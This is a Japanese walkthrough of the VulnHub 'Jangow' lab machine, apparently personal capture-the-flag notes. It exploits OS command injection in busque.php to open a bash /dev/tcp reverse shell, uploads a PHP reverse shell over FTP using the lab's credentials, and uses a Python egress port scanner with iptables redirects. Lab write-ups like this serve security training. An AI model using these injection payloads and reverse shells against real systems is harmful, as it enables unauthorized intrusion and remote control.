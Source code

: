 ## (補足)ftpの脆弱性を調べる
- `sudo nmap --script vuln`
- msfconsoleを起動して、search サービス version
- ここでは脆弱性が見つからなかった

## OSコマンドインジェクションからのリバースシェル
- ここでは事前に443ポートが開いているのがわかっているのが前提でする。ポートが開いているのを知るのは次にする
- リバースシェルは設置と発火の
- jangowではリバースシェルは２つの方法でできる
- 新しいターミナルを立ち上げて待ち状態を作る
  - `sudo nc -nlvp 443` 
### 1.ワンライナーでリバースシェル
- 次の設置と発火を両方できる
- `curl http://$IP/site/busque.php --get --data-urlencode "buscar=/bin/bash -c 'bash -i >& /dev/tcp/Parrotのアドレス/443 0>&1'"`
- リバースシェルが成功する

### 2.php-reverse-shell.phpを使う

- `~/vulnhub/jangow`にいることを確認して、ここにファイルをコピーする
- `cp /opt/php-reverse-shell.php evil.php`
- vimでevil.phpを開けてIPアドレスをParrotのアドレスにして、ポートを443する

- php-reverse-shellの転送
- `ftp $IP`
- ユーザ名とpasswordを入力する
  - user:jangow01
  - password:abygurl69 
- 先に答えを書いておくと、/var/www/htmlディレクトリは直接evil.phpを置くことができないので、とりあえず/tmpに置く
```
cd /tmp
pwd
put evil.php
ls
chmod 777 evil.php
bye
```

- /tmpに置いた、ファイルを外部公開の場所にコピーする
- `curl http://$IP/site/busque.php --get  --data-urlencode "buscar=pwd"`
  - /var/www/html/site
- `curl http://$IP/site/busque.php --get  --data-urlencode "buscar=cp /tmp/evil.php ./"`
- `curl http://$IP/site/busque.php --get  --data-urlencode "buscar=ls"`

- リバースシェルでの接続を試みる。新しいターミナルを開いてリバースシェルを待つ
  - `nc -nlvp 443` 
- もう一つのターミナルでコマンドを打って発火する
  - `curl http://$IP/site/evil.php`
- リバースシェルが成功する
 

## 開いているポートを探す
- jangowは全てターゲット側からparrot側へのポートが閉じている
- osコマンドインジェクションで次のコードを打つと本来ならコマンドが返ってくるが、ここでは返ってこない
  - 待受のためターミナルで次のコードを打つ
  - `nc -nlvp 1234`
  - 次のコマンドをosコマンドインジェクションの次に打つ。1234はポート番号で、これが正しければコマンドが返ってくるはず
  - `telnet Parrotのアドレス 1234`
- このポートを0~65464まで順にやって開いているポートを探す、、、のは面倒臭いのでfw_test.pyをvimで開いてPythonでプログラムのコードを書く。

```py
import requests

url = "http://ターゲットのIPアドレス/site/busque.php?buscar=telnet%20ParrotのIPアドレス%20"

for i in range(400, 450):
    try:
        payload = url + str(i)
        req = requests.get(payload, timeout=1)
        if "Connected" in req.text:
            print(i)
    except:
        pass
```
- `chmod +x fw_test.py`
- ParrotOS側のポートを待ち受ける
```
sudo iptables -t nat -L
sudo iptables -A PREROUTING -t nat -p tcp --dport 400:450 -j REDIRECT --to-port 1234
nc -nlvp 1234
```

- 新しいターミナルを開く
- `python3 fw_test.py`
- 使えるポートが443であることがわかる
- iptableを戻す
  - `sudo iptables -t nat -F`
  - `-F`はルールを全部削除する
